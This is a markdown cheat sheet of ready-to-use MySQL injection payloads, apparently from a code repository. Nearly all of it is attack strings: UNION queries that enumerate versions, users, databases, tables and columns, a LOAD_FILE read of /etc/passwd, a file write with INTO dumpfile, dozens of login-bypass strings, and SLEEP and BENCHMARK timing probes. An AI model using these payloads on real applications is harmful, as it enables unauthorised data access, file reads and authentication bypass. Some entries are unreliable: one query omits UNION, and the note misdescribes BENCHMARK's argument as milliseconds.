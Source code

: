 # MySQL Cookbook

Plug & play injection queries for MySQL.

Keep in mind you may have to add or subtract columns in order to get union operations to work properly.

## Info Gathering

### Get MySQL version
`' UNION SELECT @@version; -- `

### Select server user
`' UNION SELECT user(); -- `

### Select system user
`' SELECT system_user(); -- `

### Get current database
`' UNION SELECT database(); -- `

### Get hostname
`' UNION SELECT @@hostname; -- `

### Get all databases on server (for MySQL v5+)
`' UNION SELECT schema_name FROM information_schema.schemata; -- `

### Get columns across all databases
`' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'; -- `

### Get all tables in database
`' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'; -- `

### Find table by name of column
`' UNION SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username'; -- `

## Local file access (requires DB admin privileges)
### Read file
`' UNION ALL SELECT LOAD_FILE('/etc/passwd'); -- `

### Write file
`SELECT * FROM some_table INTO dumpfile '/tmp/file_name';`

## Authentication bypass

```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```

## Other

### Wait for time
`'; SELECT BENCHMARK(1000000,MD5('A')); -- `
`'; SELECT SLEEP(5) -- `
Note: the first accepts milliseconds. It should work for any version. The second works for v5.0.12.
